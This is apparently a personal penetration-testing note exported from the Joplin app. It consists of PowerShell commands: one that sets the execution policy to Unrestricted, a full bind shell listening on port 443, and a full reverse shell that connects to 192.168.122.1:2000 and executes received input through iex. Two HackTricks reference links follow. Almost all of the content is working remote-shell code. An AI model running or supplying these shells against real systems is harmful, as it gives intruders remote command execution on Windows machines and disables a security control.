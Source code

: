 PowerShell

Remember to make the computer set the executionPolicy unrestricted

> Set-ExecutionPolicy Unrestricted

Bind shell

`powershell -exec bypass -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443); $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"`

Reverse Bind shell (With kali as listener \[Use NetCat\]):

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()"`

URL for more info

https://book.hacktricks.xyz/shells/shells/windows

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters

id: 1a72f4e7464d467d810fc01a3adf9ed0
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:01:30.082Z
updated_time: 2022-04-22T04:24:39.881Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:01:30.082Z
user_updated_time: 2022-04-22T04:24:39.881Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1